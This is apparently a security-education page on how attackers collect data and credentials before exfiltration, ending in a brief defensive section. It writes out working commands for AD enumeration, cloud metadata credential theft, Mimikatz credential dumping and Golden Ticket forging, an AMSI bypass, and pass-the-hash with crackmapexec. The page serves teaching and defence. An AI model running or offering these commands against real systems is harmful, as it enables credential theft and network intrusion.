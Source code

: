# Hoarding like a winter is coming: Strategic stockpiling (2025)

Before attackers [exfiltrate](exfiltration.md) data, they meticulously collect and consolidate sensitive information from compromised 
systems. Below are modern techniques used in 2025, including network reconnaissance and credential harvesting with 
Mimikatz, along with real-world examples.

## Techniques for data collection

Attackers use a mix of automated tools, living-off-the-land binaries (LOLBins), and AI-driven methods to gather data 
stealthily.

### Automated data discovery

* AI-Powered Scanning: Attackers deploy machine learning models to identify high-value files (e.g., financial records, intellectual property) by analyzing file metadata, keywords, and access patterns.
* File Crawling Scripts: Custom PowerShell/Python scripts recursively scan directories for sensitive documents (e.g., *.docx, *.xlsx, *.pdf) and compress them for [exfiltrate](exfiltration.md).

### Network information gathering

Attackers map internal networks to identify lateral movement opportunities. Tools like arp-scan or Nmap list all 
active hosts in a subnet, and for Active Directory (AD) enumeration, BloodHound visualizes AD attack paths by 
ingesting data via SharpHound.

```powershell
Get-ADComputer -Filter * | Select-Object Name, DNSHostName, OperatingSystem  
Get-ADUser -Filter * -Properties * | Select-Object SamAccountName, LastLogonDate  
```

In cloud environments (AWS/Azure), attackers query instance metadata for credentials:

```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/  
```

### Credential harvesting with Mimikatz

Mimikatz remains a top tool for stealing credentials from Windows systems, with new evasion techniques:

***Technique 1: LSASS memory dumping***

The classic method extracts plaintext passwords, NTLM hashes, and Kerberos tickets from LSASS memory.

```bash
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"  
```

The 2025 evasion uses:

* Process Injection: Mimikatz is loaded into a benign process (e.g., explorer.exe) to bypass EDR.
* AMSI Bypass: Disables Windows Antimalware Scan Interface (AMSI) before execution:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)  
```

***Technique 2: SAM & LSA secrets extraction***

Offline dumping can extract local user hashes from the Security Account Manager (SAM) database.

```bash
mimikatz.exe "lsadump::sam /system:SYSTEM /sam:SAM"  
```

Live System extraction retrieves cached domain credentials from the Local Security Authority (LSA).

```bash
mimikatz.exe "token::elevate" "lsadump::secrets"  
```

***Technique 3: Kerberos ticket theft***

The Golden Ticket Attack Forges Kerberos tickets for persistent domain access.

```bash
mimikatz.exe "kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-... /krbtgt:hash /ptt"  
```
        
## Example: Collecting network data & credentials

Scenario: Corporate Network Intrusion

### Initial access 

Phishing email → Employee executes malicious macro → C2 beacon established.

### Network recon

Host discovery:

```bash
nmap -sn 192.168.1.0/24  
```

Share enumeration:

```bash
net view \\target-pc /ALL  
```

### Credential harvesting:

Mimikatz execution:

```bash
Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"'  
```

Lateral movement can use Pass-the-Hash (PtH) with stolen NTLM hashes:
    
```bash
crackmapexec smb 192.168.1.0/24 -u Administrator -H <NTLM_HASH>  
```

## Defensive countermeasures

* Restrict LSASS Access: Enable LSASS Protection (Windows Defender Credential Guard).
* Monitor for Mimikatz Signatures: EDR Alerts: Detect sekurlsa::logonpasswords or unusual process injection.
* Network Segmentation: Limit lateral movement via VLANs and strict firewall rules.

## Specific mitigations (2025)

* AI-Driven Anomaly Detection: Tools like SentinelOne use behavioural AI to block Mimikatz in real-time.
* Zero Trust Architecture: Enforces least-privilege access, reducing credential misuse.

## 2025

In 2025, attackers are refining data collection with AI-driven scanning, advanced Mimikatz evasion, and cloud 
exploitation. Defenders must adopt behavioural detection, Zero Trust, and credential hardening to counter these threats.
